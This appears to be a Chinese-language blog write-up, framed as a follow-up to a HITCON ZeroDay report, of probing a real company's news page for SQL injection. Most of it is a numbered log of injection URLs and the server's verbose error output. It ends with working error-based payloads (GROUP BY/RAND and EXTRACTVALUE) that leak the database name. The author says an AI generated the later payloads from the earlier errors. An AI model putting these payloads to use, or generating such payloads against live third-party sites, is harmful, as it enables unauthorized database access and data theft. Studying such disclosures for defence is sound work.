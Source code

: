 ```yaml
---
title: SQL Injection ls-design Success
description: SQL Injection ls-design Success
last_update:
  date: "2025-08-19T08:00:00+08:00"
---
```


本文是 https://zeroday.hitcon.org/vulnerability/ZD-2025-00994 的延伸

<!-- ## 測試過程

1. `https://www.ls-design.com.tw/news_detail_2025_zeroclick.html'`

```
Fatal error: Uncaught exception 'PDOException' with message 'SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '1' AND meta_type = '1' AND meta_memo != ''' at line 1' in /home/lsdesign/public_html/includes/cls_mysql.php:44 Stack trace: #0 /home/lsdesign/public_html/includes/cls_mysql.php(44): PDOStatement->execute() #1 /home/lsdesign/public_html/includes/lib_main.php(33): DB->GetRow('SELECT * FROM m...') #2 /home/lsdesign/public_html/includes/init.php(55): getMetaHotsite('meta_memo') #3 /home/lsdesign/public_html/news_detail.php(8): require_once('/home/lsdesign/...') #4 {main} thrown in /home/lsdesign/public_html/includes/cls_mysql.php on line 44
```

2. `https://www.ls-design.com.tw/news_detail_2025_zeroclick.html')`

```
Fatal error: Uncaught exception 'PDOException' with message 'SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ')' AND meta_set = '1' AND meta_type = '1' AND meta_memo != ''' at line 1' in /home/lsdesign/public_html/includes/cls_mysql.php:44 Stack trace: #0 /home/lsdesign/public_html/includes/cls_mysql.php(44): PDOStatement->execute() #1 /home/lsdesign/public_html/includes/lib_main.php(33): DB->GetRow('SELECT * FROM m...') #2 /home/lsdesign/public_html/includes/init.php(55): getMetaHotsite('meta_memo') #3 /home/lsdesign/public_html/news_detail.php(8): require_once('/home/lsdesign/...') #4 {main} thrown in /home/lsdesign/public_html/includes/cls_mysql.php on line 44
```

3. `https://www.ls-design.com.tw/news_detail_2025_zeroclick.html'))`

```
Fatal error: Uncaught exception 'PDOException' with message 'SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '))' AND meta_set = '1' AND meta_type = '1' AND meta_memo != ''' at line 1' in /home/lsdesign/public_html/includes/cls_mysql.php:44 Stack trace: #0 /home/lsdesign/public_html/includes/cls_mysql.php(44): PDOStatement->execute() #1 /home/lsdesign/public_html/includes/lib_main.php(33): DB->GetRow('SELECT * FROM m...') #2 /home/lsdesign/public_html/includes/init.php(55): getMetaHotsite('meta_memo') #3 /home/lsdesign/public_html/news_detail.php(8): require_once('/home/lsdesign/...') #4 {main} thrown in /home/lsdesign/public_html/includes/cls_mysql.php on line 44
```

4. `https://www.ls-design.com.tw/news_detail_2025_zeroclick.html%`

```
403 No Response Body
```

看起來無法注入 `%`

5. `https://www.ls-design.com.tw/news_detail_2025_zeroclick.html'%20OR%20'1'%20=%20'1` (`' OR '1' = '1`)

```
Forbidden
You don't have permission to access this resource.

Additionally, a 403 Forbidden error was encountered while trying to use an ErrorDocument to handle the request.
```

看起來無法注入 `%20`

6. `https://www.ls-design.com.tw/news_detail_2025_zeroclick.html'%25)` (`'%`)

同 1.

7. `https://www.ls-design.com.tw/news_detail_2025_zeroclick.html%25%25`

```html
<script>
  location.href = "/news.html";
</script>
```

8. `https://www.ls-design.com.tw/news_detail_2025_zeroclick.html'/**/OR/**/1=1--/**/123`

```
Fatal error: Uncaught exception 'PDOException' with message 'SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '' AND meta_set = '1' AND meta_type = '1' AND meta_memo != ''' at line 1' in /home/lsdesign/public_html/includes/cls_mysql.php:44 Stack trace: #0 /home/lsdesign/public_html/includes/cls_mysql.php(44): PDOStatement->execute() #1 /home/lsdesign/public_html/includes/lib_main.php(33): DB->GetRow('SELECT * FROM m...') #2 /home/lsdesign/public_html/includes/init.php(55): getMetaHotsite('meta_memo') #3 /home/lsdesign/public_html/news_detail.php(8): require_once('/home/lsdesign/...') #4 {main} thrown in /home/lsdesign/public_html/includes/cls_mysql.php on line 44
```

9. `https://www.ls-design.com.tw/news_detail_2025_zeroclick.html')'`

```
Connection timed out Error code 522 (Cloudfare)
```

10. `https://www.ls-design.com.tw/news_detail_2025_zeroclick.html')'test'`

```
Fatal error: Uncaught exception 'PDOException' with message 'SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ')'test'' AND meta_set = '1' AND meta_type = '1' AND meta_memo != ''' at line 1' in /home/lsdesign/public_html/includes/cls_mysql.php:44 Stack trace: #0 /home/lsdesign/public_html/includes/cls_mysql.php(44): PDOStatement->execute() #1 /home/lsdesign/public_html/includes/lib_main.php(33): DB->GetRow('SELECT * FROM m...') #2 /home/lsdesign/public_html/includes/init.php(55): getMetaHotsite('meta_memo') #3 /home/lsdesign/public_html/news_detail.php(8): require_once('/home/lsdesign/...') #4 {main} thrown in /home/lsdesign/public_html/includes/cls_mysql.php on line 44
```

11. `https://www.ls-design.com.tw/news_detail_2025_zeroclick.html')'test`

```
Fatal error: Uncaught exception 'PDOException' with message 'SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ')'test' AND meta_set = '1' AND meta_type = '1' AND meta_memo != ''' at line 1' in /home/lsdesign/public_html/includes/cls_mysql.php:44 Stack trace: #0 /home/lsdesign/public_html/includes/cls_mysql.php(44): PDOStatement->execute() #1 /home/lsdesign/public_html/includes/lib_main.php(33): DB->GetRow('SELECT * FROM m...') #2 /home/lsdesign/public_html/includes/init.php(55): getMetaHotsite('meta_memo') #3 /home/lsdesign/public_html/news_detail.php(8): require_once('/home/lsdesign/...') #4 {main} thrown in /home/lsdesign/public_html/includes/cls_mysql.php on line 44
```

12. `https://www.ls-design.com.tw/news_detail_2025_zeroclick.html/**/`

頁面載入成功，但 CSS 跟 JS 載入失敗，所以畫面很醜

13. `https://www.ls-design.com.tw/news_detail_2025_zeroclick.html%2F**%2F`

```
Not Found
The requested URL was not found on this server.

Additionally, a 404 Not Found error was encountered while trying to use an ErrorDocument to handle the request.
```

14. `https://www.ls-design.com.tw/news_detail_2025_zeroclick.html**/`

同 7.

15. https://www.ls-design.com.tw/news_detail_2025_zeroclick.html'/**/OR/**/SLEEP(2)--/**/123

同 8.，並且沒有延遲 5 秒，推測 `SLEEP(5)` 沒有執行成功

16. `https://www.ls-design.com.tw/news_detail_2025_zeroclick.html))`

同 7.

17. `https://www.ls-design.com.tw/news_detail_2025_zeroclick.html''`

同 7.

18. `https://www.ls-design.com.tw/123.html`

同 13.

19. `https://www.ls-design.com.tw/news_detail_2025_zeroclick.html',1)/**/OR/**/SLEEP(5)--/**/123`

```
Fatal error: Uncaught exception 'PDOException' with message 'SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '1)/**/OR/**/SLEEP(5)--/**/123' AND meta_set = '1' AND meta_type = '1' AND met...' at line 1' in /home/lsdesign/public_html/includes/cls_mysql.php:44 Stack trace: #0 /home/lsdesign/public_html/includes/cls_mysql.php(44): PDOStatement->execute() #1 /home/lsdesign/public_html/includes/lib_main.php(33): DB->GetRow('SELECT * FROM m...') #2 /home/lsdesign/public_html/includes/init.php(55): getMetaHotsite('meta_memo') #3 /home/lsdesign/public_html/news_detail.php(8): require_once('/home/lsdesign/...') #4 {main} thrown in /home/lsdesign/public_html/includes/cls_mysql.php on line 44
```

20. `https://www.ls-design.com.tw/news_detail_2025_zeroclick.htmltest','test'`

```
Fatal error: Uncaught exception 'PDOException' with message 'SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''test'' AND meta_set = '1' AND meta_type = '1' AND meta_memo != ''' at line 1' in /home/lsdesign/public_html/includes/cls_mysql.php:44 Stack trace: #0 /home/lsdesign/public_html/includes/cls_mysql.php(44): PDOStatement->execute() #1 /home/lsdesign/public_html/includes/lib_main.php(33): DB->GetRow('SELECT * FROM m...') #2 /home/lsdesign/public_html/includes/init.php(55): getMetaHotsite('meta_memo') #3 /home/lsdesign/public_html/news_detail.php(8): require_once('/home/lsdesign/...') #4 {main} thrown in /home/lsdesign/public_html/includes/cls_mysql.php on line 44
```

21. `https://www.ls-design.com.tw/news_detail_2025_zeroclick.htmltest',test`

```
Fatal error: Uncaught exception 'PDOException' with message 'SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'test' AND meta_set = '1' AND meta_type = '1' AND meta_memo != ''' at line 1' in /home/lsdesign/public_html/includes/cls_mysql.php:44 Stack trace: #0 /home/lsdesign/public_html/includes/cls_mysql.php(44): PDOStatement->execute() #1 /home/lsdesign/public_html/includes/lib_main.php(33): DB->GetRow('SELECT * FROM m...') #2 /home/lsdesign/public_html/includes/init.php(55): getMetaHotsite('meta_memo') #3 /home/lsdesign/public_html/news_detail.php(8): require_once('/home/lsdesign/...') #4 {main} thrown in /home/lsdesign/public_html/includes/cls_mysql.php on line 44
```

22. `https://www.ls-design.com.tw/news_detail_2025_zeroclick.htmltest',test))`

```
Fatal error: Uncaught exception 'PDOException' with message 'SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'test))' AND meta_set = '1' AND meta_type = '1' AND meta_memo != ''' at line 1' in /home/lsdesign/public_html/includes/cls_mysql.php:44 Stack trace: #0 /home/lsdesign/public_html/includes/cls_mysql.php(44): PDOStatement->execute() #1 /home/lsdesign/public_html/includes/lib_main.php(33): DB->GetRow('SELECT * FROM m...') #2 /home/lsdesign/public_html/includes/init.php(55): getMetaHotsite('meta_memo') #3 /home/lsdesign/public_html/news_detail.php(8): require_once('/home/lsdesign/...') #4 {main} thrown in /home/lsdesign/public_html/includes/cls_mysql.php on line 44
```

23. `https://www.ls-design.com.tw/news_detail_2025_zeroclick.htmltest'test))`

同 22.

24. `https://www.ls-design.com.tw/news_detail_2025_zeroclick.html'/**/UNION/**/SELECT/**/NULL,NULL,NULL,NULL,NULL--+`

同 1.（這一個步驟開始，我把前面 23 個資訊餵給 AI，請 AI 每次產一個 payload）

25. `https://www.ls-design.com.tw/news_detail_2025_zeroclick.html'/**/OR/**/1=1/**/AND/**/'1'='1`

結果竟然是 5. + 7.，先導到 `/news.html`，之後再顯示 Forbidden 頁面

26. `https://www.ls-design.com.tw/news_detail_2025_zeroclick.html'/**/AND/**/(SELECT/**/COUNT(*)/**/FROM/**/(SELECT/**/1/**/UNION/**/SELECT/**/2/**/UNION/**/SELECT/**/database())/**/AS/**/x/**/GROUP/**/BY/**/CONCAT(database(),FLOOR(RAND(0)*2)))/**/AND/**/'1'='1`

```
Fatal error: Uncaught exception 'PDOException' with message 'SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry 'lsdesign_web1' for key 'group_key'' in /home/lsdesign/public_html/includes/cls_mysql.php:44 Stack trace: #0 /home/lsdesign/public_html/includes/cls_mysql.php(44): PDOStatement->execute() #1 /home/lsdesign/public_html/includes/lib_main.php(33): DB->GetRow('SELECT * FROM m...') #2 /home/lsdesign/public_html/includes/init.php(55): getMetaHotsite('meta_memo') #3 /home/lsdesign/public_html/news_detail.php(8): require_once('/home/lsdesign/...') #4 {main} thrown in /home/lsdesign/public_html/includes/cls_mysql.php on line 44
```

成功，但這個妖魔鬼怪的 SQLi Payload 真複雜

27. `https://www.ls-design.com.tw/news_detail_2025_zeroclick.html'/**/AND/**/EXTRACTVALUE(1,CONCAT(0x7e,database(),0x7e))/**/AND/**/'1'='1`

```
Fatal error: Uncaught exception 'PDOException' with message 'SQLSTATE[HY000]: General error: 1105 XPATH syntax error: '~lsdesign_web~'' in /home/lsdesign/public_html/includes/cls_mysql.php:44 Stack trace: #0 /home/lsdesign/public_html/includes/cls_mysql.php(44): PDOStatement->execute() #1 /home/lsdesign/public_html/includes/lib_main.php(33): DB->GetRow('SELECT * FROM m...') #2 /home/lsdesign/public_html/includes/init.php(55): getMetaHotsite('meta_memo') #3 /home/lsdesign/public_html/news_detail.php(8): require_once('/home/lsdesign/...') #4 {main} thrown in /home/lsdesign/public_html/includes/cls_mysql.php on line 44
```

回到熟悉的 `EXTRACTVALUE` 最對味

28. 接下來請參考 [ZD-2025-00994](https://zeroday.hitcon.org/vulnerability/ZD-2025-00994) -->

## 學到的東西

<!-- 1. AI 有前面的 23 組錯誤訊息分析，很快地就在 3 次找到答案，比起我從一開始就問 AI，我自己先嘗試一下，真的卡關再問，效率會比較高，而且有比較多時間可以自主思考 -->

1. 比起我從一開始就問 AI，我自己先嘗試一下，真的卡關再問，效率會比較高，而且有比較多時間可以自主思考
2. 我太關注原始的 SQL 語法是什麼，但實際上 Error-Based SQLi 只要能夠成功製造 SQL 的錯誤，就有機會可以偷到資料，即便不知道原始的 SQL 語法也沒關係（但我還是好想知道喔XD）
